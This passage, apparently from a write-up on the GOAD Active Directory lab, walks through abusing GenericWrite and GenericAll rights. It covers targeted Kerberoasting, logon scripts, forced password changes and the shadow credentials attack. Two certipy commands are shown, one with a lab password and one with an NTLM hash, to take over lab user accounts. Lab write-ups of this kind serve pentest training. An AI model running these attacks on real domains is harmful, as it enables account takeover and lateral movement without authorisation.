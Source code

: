 ![adcs_shadow_credentials.png](/assets/blog/GOAD/adcs_shadow_credentials.png)

- This attack is very usefull when you got Write on another user.

- With genericWrite you can only do:
  - Target Kerberoasting : add an SPN to a user, do a kerberoasting, unset the spn. But the user password must be weak to the kerberoasting attack work.
  - Set up a logon script : change ldap parameters to set up a logon script. but it implies that the user log to his computer, an smb server or a share to offer the script and setup a script that bypass the security solutions in place)
  - shadow credentials : the attack we want to do, we need a cetificate service on the domain

- With GenericAll you can :
  - ForceChangePassword : but on a real pentest you don't want to block a user by changing his password. And this is not very stealthy too. So if you can do another way this is fine :)
  - All the attacks available in the genericWrite part.


So if ADCS is enabled on the domain, and we got write privilege on msDS-KeyCredentialLink, we can do the shadow credentials attack to get a direct access on the user account. And this seems to be the better idea in this case on a real pentest.

- Shadow credentials is now include with certipy (this attack can also be done with [pywisker](https://github.com/ShutdownRepo/pywhisker) )

```bash
certipy shadow auto -u khal.drogo@essos.local -p 'horse' -account 'viserys.targaryen'
```

![adcs_shadow_credentials_exploit.png](/assets/blog/GOAD/adcs_shadow_credentials_exploit.png)

- And we can do the same from viserys to jorah

```bash
certipy shadow auto -u viserys.targaryen@essos.local -hashes 'd96a55df6bef5e0b4d6d956088036097' -account 'jorah.mormont'
```
